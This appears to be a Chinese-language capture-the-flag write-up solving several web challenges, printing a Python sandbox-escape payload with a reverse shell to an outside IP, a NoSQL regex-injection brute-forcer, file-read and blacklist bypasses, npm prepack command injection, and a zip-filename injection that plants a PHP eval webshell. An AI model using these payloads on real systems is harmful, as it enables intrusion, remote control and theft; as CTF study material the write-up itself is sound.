









# Escape Plan

```python
import requests, base64

u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'
exp = b"globals()['request'].form['a']"
print(base64.b64encode(exp).decode())
CMD = f"eval(eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict({base64.b64encode(exp).decode()}=()))[len([])])))"
CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
CMD = CMD.replace("e", "ᵉ")
res = requests.post("http://139.196.153.118:30402/",
                    data={
                        "cmd": base64.b64encode(CMD.encode()),
                        "a": 'exec(\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.113.198.5",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\')'
                    }).text
print(res)
```

# d3node

开局一个登录框，F12查看网页源码，提示<!-- /getHint1 -->

```js
Userinfo.findOne({username: req.body.username, password: req.body.password}).exec()
    .then((info) => {
    if (info == null) {
        return res.render("login", {login_result: "Login failed,invalid username or password"});
    } else {
```

应该是调用了啥ORM或ODM框架去数据库查用户名和密码了

先注册一个账号试试，用户名为`admin`提示`User already exists`

估计要想办法登录`admin`账号了

登录后F12得到提示 <!-- /dashboardIndex/getHint2 -->

```js
try {
    return res.status(200).send(fs.readFileSync(req.query.filename || "./example/example.json").toString());
}catch(err){
    return res.status(500).send("Internal server error");
}
```

可以任意读取文件





`filename=/proc/self/cmdline` => `node ./app.js`

`filename=/proc/self/environ` 

=>`NODE_VERSION=19.9.0`

=>`YARN_VERSION=1.22.19`

=>`DBUser=d3ctf2023350j2tsykyydglx8`

=>`DBPassword=d3ctf2023aw2obp8tincqw6od`

但是环境跑在Docker上，不知道MongoDB的端口（默认27017）有没有映射出去，就算映射出出去也不知道映射到哪个端口

NoSQL注入拿账号密码

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://47.102.98.112:31387/user/LoginIndex"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": "admin", "password": {"$regex": "^%s" }}' % (password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

得到密码`dob2xdriaqpytdyh6jo3`

hint2的黑名单绕过根据`readFileSync()`的特性

`filename[href]=a&filename[origin]=a&filename[protocol]=file:&filename[hostname]=&filename[pathname]=./%2561pp.js`

得到源码

```js
const express = require("express");
const bodyParser = require("body-parser");
const cookieParser = require("cookie-parser");
const session = require("express-session");
const stringRandom = require("string-random");
const path = require("path");

// register router
const indexRouter = require("./routes/index");
const userRouter = require("./routes/user");
const dashboardIndexRouter = require("./routes/dashboardIndex");

const app = express();
const PORT = 8080;

app.engine('html', require('hbs').__express);
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(bodyParser.urlencoded({ extended: true }));
app.use(bodyParser.json());
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'static')));

app.use(session({
    secret: stringRandom(32),
    resave: false,
    saveUninitialized: true,
    cookie: {
        maxAge: 1000 * 60 * 60 * 24 * 7
    }
}));

// set router
app.use("/",indexRouter);
app.use("/user",userRouter);
app.use("/dashboardIndex",dashboardIndexRouter);

app.listen(8080,() =>
{
    console.log(`App listening on ${PORT}`);
});
```

```js

const express = require('express');
const fs = require("fs");
const path = require("path");
const cp = require("child_process");
const multer = require("multer");

const router = express.Router();

const upload = multer({ dest: path.join(__dirname,"../public/tmp")});
function checkFileData(fileDatas){
    const blacklist = ['__proto__', 'prototype', 'constructor'];
    for (let i = 0; i < blacklist.length; i++) {
        if (fileDatas.includes(blacklist[i])) {
                return false;
        }
    }
    return true;
}

// Get example file
router.get("/ShowExampleFile",(req, res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }

    if([req.query].some((item) => item && JSON.stringify(item).includes("app"))){
        return res.status(200).send("Hacker!!!");
    }

    try {
        return res.status(200).send(fs.readFileSync(req.query.filename || "./example/example.json").toString());
    }catch(err){
        return res.status(500).send("Internal server error");
    }
})

// Homepage
router.get("/Home",(req,res) => {
    if(!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    return res.render("dashboardIndex",{message:"Welcome back",session_user:"Hello,"+req.session.user});
})

router.get("/getHint2",(req, res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    const hintName = "hint2.png";
    const options = {
        root: path.join(__dirname,"../hints")
    };
    res.sendFile(hintName,options,(err) => {
        if(err){
            return res.status(500).send("Get hint2 error");
        }
    });

});

// show uploaded files
router.get("/UploadList",(req,res) => {
    if(!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    var lists = fs.readdirSync(path.join(__dirname,"../public/upload"));
    if (lists.length === 0){
        return res.render("dashboardIndex",{message: "No uploaded files",session_user:"Hello,"+req.session.user});
    }
    return res.render("dashboardIndex",{message: lists,session_user:"Hello,"+req.session.user});
})

// show packed files
router.get("/PacksList",(req,res) => {
    if(!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    var lists = fs.readdirSync(path.join(__dirname,"../public/packs"));
    if (lists.length === 0){
        return res.render("dashboardIndex",{message: "No packed files",session_user:"Hello,"+req.session.user});
    }
    let result = "";
    for (let i = 0; i < lists.length; i++){
        result += "<a href='/dashboardIndex/DownloadPackage?name=" + lists[i] + "'>" + lists[i] + "</a><br>";
    }
    return res.render("dashboardIndex",{message: result,session_user:"Hello,"+req.session.user});
})

// Download packed files
router.get("/DownloadPackage",(req,res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    if (req.query.name === undefined || req.query.name === ""){
        req.query.name = "example.tgz";
    }
    var packageName = req.query.name;

    if (packageName.indexOf("/") !== -1 || packageName.indexOf("..") !== -1){
        return res.status(200).send("File path invalid");
    }
    if (packageName.indexOf(".tgz") === -1){
        return res.status(200).send("Not a package file");
    }

    const packagePath = path.join(__dirname,"../public/packs/",packageName);
    if(!fs.existsSync(packagePath)) {
        return res.status(200).send("File not found");
    }
    const contentType = "application/x-gtar";
    res.setHeader("Content-disposition", "attachment; filename=" + packageName);
    res.setHeader("Content-type", contentType);
    res.download(packagePath,packageName,(err) => {
        if (err){
            return res.status(500).send("Download failed");
        }
    });

});

// Upload files
router.all("/Upload",upload.any(),(req,res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }

    if (!req.session.is_admin){
        return res.status(403).send("You are not admin");
    }

    if (req.method === "GET"){
        return res.render("upload",{upload_result:"plz upload file"});
    }
    if (req.method === "POST"){
        if (!req.files || Object.keys(req.files).length === 0){
            return res.send("No files were uploaded");
        }
        var file = req.files[0];
        if (file.originalname.includes("/") || file.originalname.includes("..")){
            return res.send("File path invalid");
        }
        var fileData = fs.readFileSync(file.path).toString("utf-8");
        if (!checkFileData(fileData)){
            return res.send("File data invalid");
        }
        var filePath = path.join(__dirname,"../public/upload/",file.originalname);
        if (path.extname(file.originalname) === ".json") {
            fs.writeFile(filePath,fileData,(err) => {
                if (err){
                    return res.send("File upload error");
                }else {
                    return res.send("File upload success");
                }
            });
        }else {
            return res.send("Not a JSON file");
        }
    }
});

// Set dependencies
router.all("/SetDependencies",(req,res) => {
    if (!req.session.is_login) {
        return res.redirect("/user/LoginIndex");
    }
    if (!req.session.is_admin){
        return res.status(403).send("You are not admin");
    }
    if (req.method === "GET") {
        return res.status(200).send("You can post the dependencies here");
    }
    if (req.method === "POST"){
        var data = req.body;

        if (typeof data !== "object" && data === {}){
            return res.status(200).send("plz set the dependencies");
        }
        if (!checkFileData(JSON.stringify(data))){
            return res.status(200).send("Invalid dependencies");
        }
        var exampleJson = {
            "name": "app-example",
            "version": "1.0.0",
            "description": "Example app for the Node.js Getting Started guide.",
            "author": "anonymous",
            "scripts":{
                "prepack": "echo 'packing dependencies'"
            },
            "license": "MIT",
            "dependencies": {

            }
        };
        exampleJson = Object.assign(exampleJson,{},data);

        var filePath = path.join(__dirname,"../public/package.json");
        var fileData = JSON.stringify(exampleJson);

        fs.writeFile(filePath,fileData,(err) => {
            if (err){
                return res.status(500).send("Set dependencies error");
            }else {
                return res.status(200).send("Set dependencies success");
            }
        })
    }
})

// Pack dependencies
router.get("/PackDependencies",(req,res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    if (!req.session.is_admin){
        return res.render("dashboardIndex",{message: "You are not admin",session_user:"Hello,"+req.session.user});
    }
    console.log("Packing dependencies...");
    var filePath = path.join(__dirname,"../public");
    cp.exec("cd " + filePath + "&& npm pack && mv ./*.tgz ./packs",(err,stdout,stderr) => {
        if(err){
            return res.render("dashboardIndex",{message: "Pack dependencies error",session_user:"Hello,"+req.session.user});
        }else {
            return res.render("dashboardIndex",{message: "Pack dependencies success",session_user:"Hello,"+req.session.user});
        }
    })
})

// Kill installing dependencies
router.get("/KillDependencies",(req,res) => {
    if(!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    if (!req.session.is_admin){
        return res.render("dashboardIndex",{message: "You are not admin",session_user:"Hello,"+req.session.user});
    }
    console.log("Killing dependencies...");
    cp.exec("ps -ef | grep npm | grep -v grep | awk '{print $2}' | xargs kill -9",(err,stdout,stderr) => {
        if (err){
            return res.render("dashboardIndex",{message: "Kill installing dependencies error",session_user:"Hello,"+req.session.user});
        }else {
            return res.render("dashboardIndex",{message: "Kill installing dependencies success",session_user:"Hello,"+req.session.user});
        }
    });

});

// Logout
router.get("/Logout",(req,res) => {
    if (!req.session.is_login){
        return res.redirect("/user/LoginIndex");
    }
    req.session.is_login = 0;
    req.session.is_admin = 0;
    req.session.user = "";
    return res.redirect("/user/LoginIndex");
})

module.exports = router;
```

污染是不能污染了

`SetDependencies`设置`scripts`的`prepack`

`PackDependencies`执行`npm pack`会执行`prepack`里的命令

```json
{
    "name": "app-example",
    "version": "1.0.0",
    "description": "Example app for the Node.js Getting Started guide.",
    "author": "anonymous",
    "scripts":{
        "prepack": "echo `/readflag` > /temp/key"
    },
    "license": "MIT",
    "dependencies": {
    }
}
```

再去读`/temp/key`即可

# d3cloud

> admin uses laravel-admin to build a personal cloud disk, and adds a utility function

访问`/admin`，弱口令登录`admin/admin`

配置了Media manager插件，去官网看看，就是用来上传文件的，默认传到`public`目录下



发现一个文件



和源文件对比👉https://github.com/illuminate/filesystem/blob/master/FilesystemAdapter.php



新增了⼀个上传zip的⾃解压功能（`cloud manager with auto unzip `）

不能上传软链接laravel⽆法解析

将文件名改成`;echo '<?php eval($_POST[1]);' > 1.php;.zip`



蚁剑连接得flag





# d3readfile

> Can you read the flag... Since you can read any file!


可以读取任意文件

`/proc/self/cmdline` -> `/app/server`

`/proc/self/environ` -> `FLAMEGO_ENV=production、FLAMEGO_ADDR=0.0.0.0:8000`

HINT:`HINT=d2hlcmUgaXMgdGhlIGZsYWcuLi4gd2UgaGF2ZSB0byBmaW5kIGEgd2F5IHRvIGxvY2F0ZSB0aGUgZmxhZyEh`

解码得 `where is the flag... we have to find a way to locate the flag!!`

`Flame Go`是Go的一个web框架，读取`/app/server`下来一个ELF文件，不会逆向放弃了

根据HINT：**locate 命令是查询文件所在位置的，会在本地缓存数据库**

`/var/cache/locate/locatedb`

得到flag路径



